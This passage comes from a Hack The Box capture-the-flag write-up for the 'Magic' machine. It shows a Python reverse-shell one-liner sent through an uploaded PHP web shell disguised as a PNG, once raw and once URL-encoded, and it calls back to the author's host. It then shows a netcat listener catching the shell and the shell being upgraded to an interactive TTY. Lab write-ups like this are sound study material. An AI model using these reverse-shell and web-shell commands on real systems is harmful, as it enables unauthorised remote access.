 ```text
http://10.10.10.185/images/uploads/htb1.php.png?test=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.57",8099));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

 gets me...

```text
http://10.10.10.185/images/uploads/htb1.php.png?test=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.15.57%22,8099));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

sending a non-image file results in this message: `<script>alert('What are you trying to do there?')</script>`

to get burp to catch the request I had to go into the settings and disable the default filter that tells it not to intercept image requests

![](/assets/img/4-disable-image-filter.png)

```python
zweilos@kali:~/Downloads$ nc -lvnp 8099
listening on [any] 8099 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.185] 48146
/bin/sh: 0: can't access tty; job control turned off
$ python -c import pty;pty.spawn('/bin/bash');
/bin/sh: 1: Syntax error: word unexpected (expecting ")")
$ python -c "import pty;pty.spawn('/bin/bash');"
/bin/sh: 1: python: not found
$ python3 -c "import pty;pty.spawn('/bin/bash');"
www-data@ubuntu:/var/www/Magic/images/uploads$ ^Z
[1]+  Stopped                 nc -lvnp 8099
zweilos@kalimaa:~/Downloads$ stty raw -echo
zweilos@kalimaa:~/Downloads$ nc -lvnp 8099

www-data@ubuntu:/var/www/Magic/images/uploads$ export TERM=xterm-256color
www-data@ubuntu:/var/www/Magic/images/uploads$
```
